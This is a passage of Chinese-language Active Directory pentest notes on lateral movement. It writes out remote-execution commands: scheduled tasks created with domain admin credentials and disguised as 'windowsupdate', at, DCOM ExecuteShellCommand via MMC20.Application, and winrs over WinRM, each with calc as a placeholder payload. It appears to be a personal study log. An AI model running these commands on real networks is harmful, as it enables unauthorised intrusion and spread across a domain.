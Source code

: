其实看下helper就会用了

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/wmihacker_usage.png)

挺好使
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/wmihacker.png)

或者用自带的wmic也行

#### schtasks

定时任务，直接搬运指令作为记录

```
schtasks /create /s 1.1.1.1 /u domain\Administrator /p password /ru "SYSTEM"  /tn "windowsupdate" /sc DAILY  /tr "calc" /F

schtasks /run /s 1.1.1.1 /u domain\Administrator /p password /tn windowsupdate
```

#### at

计划任务，也没啥好说滴
`at \\1.1.1.1 15:15 calc`

#### sc

sc.exe是一个命令行下管理本机或远程主机服务的工具，具体看 help ~

#### DCOM

> 20200804 - 中间做开发去了，回来慢慢填坑

首先还是老样子，什么是DCOM？（看完之后去搬运了一点点）DCOM即（Distributed Component Object Module）分布式组件对象模型，是一系列微软的概念和程序接口(当然一看就是基于COM的)，通过DCOM，客户端程序对象能够向网络中的另外一台计算机的程序对象发起请求。
同时发现三好学生师傅的[博文](https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-%E5%88%A9%E7%94%A8DCOM%E5%9C%A8%E8%BF%9C%E7%A8%8B%E7%B3%BB%E7%BB%9F%E6%89%A7%E8%A1%8C%E7%A8%8B%E5%BA%8F/)里也有了，拜读完之后默默补上...因为文章中的操作涉及到Powershell的版本问题，这里先抛出Powershell查询版本的语句：`$PSVersionTable.PSVersion`\# 商业转载请联系作者获得授权，非商业转载请注明出处。

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c calc.exe","")
```

此命令为本地命令执行，在实际运用的时候，需要先建立 $IPC 连接，替换127.0.0.1和要执行的命令即可

#### **WinRM**

> WinRM（Windows Remote Management）即windows远程管理，基于Web服务管理。感觉就像是SSH ~

用账号密码即可远程连接，我本地配置的时候有点问题（设置了TrustedHosts还是不成功...），所以先记录一下指令
`winrs -r:http://targetip:5985 -u:Administrator -p:password "whoami"`
一般来说，5985是http，5986是https

### PTH

